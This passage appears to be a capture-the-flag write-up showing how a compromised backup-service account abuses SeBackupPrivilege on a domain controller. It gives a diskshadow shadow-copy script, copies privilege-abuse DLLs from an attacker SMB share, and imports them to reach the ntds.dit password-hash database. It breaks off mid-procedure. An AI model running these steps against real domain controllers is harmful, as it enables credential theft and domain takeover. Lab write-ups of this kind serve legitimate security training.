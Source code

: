 Knowing this, we can abuse the SeBackupPrivilege and create a 'copy' of the current Domain Controller (DC) state. From there, we can extract the ntds.dit database file and dump the hashes. The ntds.dit file usually stores Active Directory data including user passwords hashes. <br>
Let's get right to it.
## Administrator
We will be using diskshadow to backup the Domain Controller's current state. Luckily, the diskshadow binary is already available on the machine.
```
*Evil-WinRM* PS C:\Users\svc_backup\Desktop> diskshadow /?
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC01,  10/5/2020 6:20:09 PM

DISKSHADOW.EXE  [/s <scriptfile> [param1] [param2] [param3] ...] [/l <logfile>]
                          - Runs script mode
DISKSHADOW.EXE  [/l <logfile>]
                          - Interactive mode

    /s <scriptfile> [param1] [param2] [param3] ... [paramX]
                          - Script mode. Include environment parameters in script using
                            %DISKSH_PARAM_1%, %DISKSH_PARAM_2%, %DISKSH_PARAM_3%, ..., %DISKSH_PARAM_X%
                            to reference [paramX] above.
    /l <logfile>          - Output log file
```
We need to give diskshadow a script to execute:
```
Script ->{
set context persistent nowriters  
set metadata c:\windows\system32\spool\drivers\color\example.cab  
set verbose on  
begin backup  
add volume c: alias mydrive  
create  
expose %mydrive% w:  
end backup  
}
```
The /s option is for executing a script.
```
*Evil-WinRM* PS C:\Users\svc_backup\music> diskshadow /s script.txt
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC01,  10/5/2020 6:33:00 PM
...
```
The backup was successful, however, we cannot copy the ntds.dit file from the backup since the svc_backup account does not have permissions to access it. We have to implement some sort of backup and copy it to an accessible folder.
For that, I used the SeBackupPrivilegeCmdLets and SeBackupPrivilegeUtils powershell modules found <a href="https://github.com/giuliano108/SeBackupPrivilege">here</a>.
I already have them downloaded, so ill copy them over using SMB.
```
*Evil-WinRM* PS C:\Users\svc_backup\music> copy \\10.10.14.234\heli\SeBackupPrivilegeUtils.dll .                                         
*Evil-WinRM* PS C:\Users\svc_backup\music> copy \\10.10.14.234\heli\SeBackupPrivilegeCmdLets.dll .                                       
*Evil-WinRM* PS C:\Users\svc_backup\music> Import-Module .\SeBackupPrivilegeUtils.dll
*Evil-WinRM* PS C:\Users\svc_backup\music> Import-Module .\SeBackupPrivilegeCmdLets.dll
```
Then copy the ntds.dit database file to our current directory using the powershell module.
```
*Evil-WinRM* PS C:\Users\svc_backup\music> Set-SeBackupPrivilege
```